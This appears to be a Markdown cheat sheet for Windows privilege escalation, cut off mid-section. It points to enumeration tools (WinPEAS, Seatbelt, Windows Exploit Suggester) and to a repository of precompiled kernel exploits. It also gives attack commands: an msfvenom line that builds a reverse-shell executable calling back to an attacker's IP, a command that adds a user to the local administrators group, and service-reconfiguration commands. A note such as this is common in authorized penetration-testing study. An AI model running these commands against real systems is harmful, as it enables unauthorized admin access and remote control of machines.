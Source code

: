 # Window's Privilege Escalation

## Tools

### WinPEAS

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe

press enter if hangs @ end
```

### Seatbelt

```
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe
```

## Spawn Admin Shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o <FILE>
```
```
net localgroup administrators <USERNAME> /add   # If RDP is enabled
```

## Kernel Exploits

### Windows Exploit Suggester

```
https://github.com/bitsadmin/wesng
```

### SecWiki (Pre-compiled Binaries)

```
https://github.com/SecWiki/windows-kernel-exploits
```

### Enumerate Version

```
systeminfo
```

## Service Exploits

### Enumeration

```
sc.exe qc <NAME>                            # Query config of service
sc.exe query <NAME>                         # Query current status of service
sc.exe config <NAME> <OPTION>= <VALUE>      # Modify config option of service

net start/stop <NAME>                       # Start and stop the service
```

## Registry

### AutoRuns

```
req query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

### MSI Files (AlwaysInstallElevated

